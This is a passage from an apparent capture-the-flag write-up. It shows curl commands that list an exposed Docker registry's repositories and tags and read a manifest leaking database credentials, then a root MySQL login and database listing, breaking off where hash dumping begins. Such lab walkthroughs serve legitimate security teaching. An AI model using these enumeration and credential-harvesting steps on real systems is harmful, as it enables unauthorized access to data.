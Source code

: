 Getting a list of repositories.

```console
$ curl -s http://10.10.142.44:5000/v2/_catalog | jq
{
  "repositories": [
    "umbrella/timetracking"
  ]
}
```
- There is one repository named: `umbrella/timetracking`

Getting the tags for repository.
```console
$ curl -s http://10.10.142.44:5000/v2/umbrella/timetracking/tags/list | jq
{
  "name": "umbrella/timetracking",
  "tags": [
    "latest"
  ]
}
```

- There is only one tag: `latest`

### Finding DB Credentials

Checking the manifest for `umbrella/timetracking:latest`, we get the credentials for the database in environment variables.

```console
$ curl -s http://10.10.142.44:5000/v2/umbrella/timetracking/manifests/latest | jq
```
![Database Password](db_pass.webp){: width="800" height="300" }

### Dumping hashes from the database and cracking them

Connecting to the database.
```console
$ mysql -u root -p -h 10.10.142.44
```

Listing databases.

```console
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| timetracking       |
+--------------------+
5 rows in set (0.085 sec)
```
Dumping the hashes.
